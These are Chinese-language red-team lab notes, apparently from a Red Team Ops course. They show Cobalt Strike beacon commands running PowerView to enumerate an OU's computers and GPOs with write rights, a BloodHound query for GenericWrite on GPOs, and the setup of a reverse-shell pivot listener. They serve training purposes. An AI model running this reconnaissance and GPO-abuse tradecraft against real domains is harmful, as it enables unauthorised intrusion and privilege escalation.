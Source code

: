 

获取某个OU的计算机列表
```
beacon> powershell Get-DomainComputer | ? { $_.DistinguishedName -match "OU=Tier 1" } | select DnsHostName

dnshostname            
-----------            
srv-1.dev.cyberbotic.io
```


下面查询返回所有拥有WriteProperty、WriteDacl或WriteOwner权限的SID
```
beacon> powershell Get-DomainGPO | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "WriteProperty|WriteDacl|WriteOwner" -and $_.SecurityIdentifier -match "S-1-5-21-3263068140-2042698922-2891547269-[\d]{4,10}" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier | fl

ObjectDN              : CN={AD7EE1ED-CDC8-4994-AE0F-50BA8B264829},CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io
ActiveDirectoryRights : CreateChild, DeleteChild, ReadProperty, WriteProperty, GenericExecute
SecurityIdentifier    : S-1-5-21-3263068140-2042698922-2891547269-1126

beacon> powershell ConvertFrom-SID S-1-5-21-3263068140-2042698922-2891547269-1126
DEV\Developers
```

查看上面结果中ObjectDN的名字
```
beacon> powershell Get-DomainGPO -Name "{AD7EE1ED-CDC8-4994-AE0F-50BA8B264829}" -Properties DisplayName

displayname        
-----------       
PowerShell Logging
```

在BloodHound中的查询
```
MATCH (gr:Group), (gp:GPO), p=((gr)-[:GenericWrite]->(gp)) RETURN p
```

![alt GPO](https://rto-assets.s3.eu-west-2.amazonaws.com/group-policy/devs-genericwrite.png?width=1920)

# Pivot Listeners

其实这里就是监听，前面一直都是正向连接shell，这里是反向连接shell，从靶机到CS，因为GPO作用的时间可能不可控，当命令生效时马上反向连接到CS，在这个场景下reverse shell是比较好的策略。

CS新建一个rev shell

![alt rev](https://rto-assets.s3.eu-west-2.amazonaws.com/pivot-listener/new-pivot-listener.png?width=1920)
